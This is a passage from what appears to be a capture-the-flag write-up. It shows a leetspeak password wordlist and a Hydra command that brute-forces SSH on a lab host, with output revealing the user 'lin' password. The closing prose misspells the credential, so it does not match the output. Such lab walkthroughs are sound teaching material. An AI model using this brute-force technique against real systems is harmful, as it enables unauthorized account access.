 ```
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

With Hydra we can easily check if any of the passwords may match a valid credential:

```
$ hydra -l lin -P locks.txt 10.10.82.228 ssh                                                                              255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-23 21:31:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.82.228:22/
[22][ssh] host: 10.10.82.228   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-23 21:31:34
```

We have found the credential lin/RedDr4gonSynt1cat3
Now we can log in with this credential using ssh, and retrieve the user flag:

![ImgPlaceholder](screenshots/user_flag.png)
